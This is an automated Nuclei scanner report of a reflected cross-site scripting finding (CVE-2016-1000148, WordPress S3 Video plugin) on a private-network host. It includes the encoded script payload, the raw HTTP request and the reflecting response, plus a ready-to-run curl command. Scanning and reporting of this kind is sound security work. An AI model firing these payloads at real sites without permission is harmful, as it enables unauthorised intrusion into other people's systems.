 ### S3 Video Plugin <= 0.983 - Unauthenticated Reflected Cross-Site Scripting (XSS) (CVE-2016-1000148) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2016-1000148**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/wp-content/plugins/s3-video/views/video-management/preview_video.php?media=%22%3E%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E%3C%22

**Timestamp**: Wed Jun 8 20:22:21 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | S3 Video Plugin <= 0.983 - Unauthenticated Reflected Cross-Site Scripting (XSS) |
| Authors | daffainfo |
| Tags | cve, cve2016, wordpress, wp-plugin, xss |
| Severity | medium |
| Description | Reflected XSS in wordpress plugin s3-video v0.983 |
| CVSS-Metrics | [CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N) |
| CWE-ID | [CWE-79](https://cwe.mitre.org/data/definitions/79.html) |
| CVE-ID | [CVE-2016-1000148](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2016-1000148) |
| CVSS-Score | 6.10 |

**Request**
```http
GET /wp-content/plugins/s3-video/views/video-management/preview_video.php?media=%22%3E%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E%3C%22 HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.2309.372 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 269
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/wp-content/plugins/s3-video/views/video-management/preview_video.php?media="></script><script>alert(document.domain)</script><"</B> was not found.</BODY></HTML>
```

References: 
- https://wpscan.com/vulnerability/ead796ed-202a-451f-b041-d39c9cf1fb54
- https://nvd.nist.gov/vuln/detail/cve-2016-1000148
- https://wordpress.org/plugins/s3-video
- http://www.vapidlabs.com/wp/wp_advisory.php?v=240

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.2309.372 Safari/537.36' 'http://192.168.198.179:8080/wp-content/plugins/s3-video/views/video-management/preview_video.php?media=%22%3E%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E%3C%22'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)